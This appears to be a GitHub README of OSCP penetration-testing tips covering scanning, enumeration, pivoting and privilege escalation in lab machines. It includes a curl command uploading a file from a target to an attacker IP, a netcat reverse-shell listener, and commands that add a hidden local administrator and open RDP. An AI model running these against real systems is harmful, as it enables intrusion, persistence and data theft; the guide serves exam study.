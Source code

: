 ## oscp-tips ##
### Tips and Tricks for OSCP and Beyond! ###

1 - Run a quick port scanner like threader3000 or rustscan first. You can save good amount of time by this way, for example threader3000 scans all ports and suggests nmap only for open ports only. 
2 - Run nmap -sS for all ports, compare open ports with previous scan.
3 - Run -sU (UDP) for well-known ports.
4 - Run gobuster in dir mode for all http/https ports with common world list. See if anything interesting.
5 - Run gobuster in fuzz mode with common world list.
6 - Run gobuster recursively for anything interesting, like you find out a script directory, try to find out directories within script. You should do this upto 3-4 level.
7 - Run gobuster for file extension using -x, like for php or aspx.
8 - Check UDP scan, see if SNMP is allowed or not. If SNMP port is open use snmpwalk with well-known default community strings.
9 - Run snmp with extended MIB, check hacktricks for more details.
10 - Check HTML code, check title of the page, sometimes you will get vulnerable system name from title itself.
11 - Check nmap scan, try to connect to every port using telnet or nc. Send some random keys and see the response.
12 - Check hacktricks (https://book.hacktricks.xyz/) if you don't know or aware about pentesting of a port or service.
13 - Use rpcclient to enum users and other details if RPC ports are open.
14 – Revert machines and perform scan again.
15 – Listen reverse shell on same ports which are open on victim. For example, if port 445 is open on victim, bidirectional traffic might be allowed on same port too. You can use “nc -lvnp 445” to catch reverse shell on Kali in that case, if others are not working. Try port 80 and 443 as well.
16 – Always try default credentials wherever applicable. For example, admin/password, administrator/password or admin/admin. Search google for default credentials as well.
17 – Always try username and password as machine name as credential. For example, if machine name is “berlin”, try to login FTP (or any other service) with berlin/berlin. Try username without password.
18 – If machine is running a portal with employee name (or email), they can be potential usernames. Make a list and use it for spraying.
19 – Use “updog” to transfer data between target and Kali. You can upload data from target to Kali using below command.
curl.exe -v -XPOST -F "file=@./SharpHound.ps1;filename=SharpHound.ps1" -F "path=." http://192.168.45.229:9090/upload
Please note that for above command file “SharpHound.ps1” should be saved in same directory from where you are running command. You can use impacket-smbserver as well.
20 – If using msfvenom reverse shell, use msfconsole multi handler to catch it. 
21 - Compile C/C++ exploit with "-static" flag, it will allow to include all required libraries as few might be missing on target. You can avoid “GLIBC not found” error by compiling with “-static”.
22 – If you can get root on a Windows machine (standalone or form AD set), install nmap on that and scan remaining machines from there. Scan will be very fast, you will surely save time.
23 – If you are not able to copy files directly to target machine copy it to another target and copy from there. For example, if you have root access on MS01 and low-level access on MS02. It is possible that you might not be allowed to copy files (like winPEAS) directly from Kali to MS02. Create a share folder on MS01, copy files to that folder. Now you can copy files from MS01 to MS02.
24 – Use ligolo-ng for pivoting between machines. You can use script from https://github.com/isr4r/misc-scripts/blob/master/ligolo.sh to configure ligolo easily.
25 – Use chisel for local port forwarding. For example, a service is running on target which is only locally allowed (or from 127.0.0.1). You should use chisel in this situation to open access for this service from Kali.
26 – Always check for ports open or allowed locally (for 127.0.0.1). You can connect to these ports on same target machine using “telnet localhost <port number>”. It will give you an idea if something interesting is running.
27 – For AD Set, after getting system level access, which might be over CLI, create a new account as local admin, enable RDP, login and do further enum like running mimikatz. You can use below commands to create user and enable RDP.
For RDP (PowerShell commands)
•	Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0
•	Enable-NetFirewallRule -DisplayGroup "Remote Desktop"

For Creating User
•	net user user1 Pass123 /add 
•	net localgroup Administrators user1 /add

28 – Try reverse shell from https://www.revshells.com/, keep trying as one of them will work in lab and in exam too.
29 – Try smbclient, FTP, rpcclient as null user or anonymous user or guest user as well. For example,
•	smbclient -U “” -L 192.168.120.20  
30 – If machine has an open source project check its github or code repo to understand directory structure.


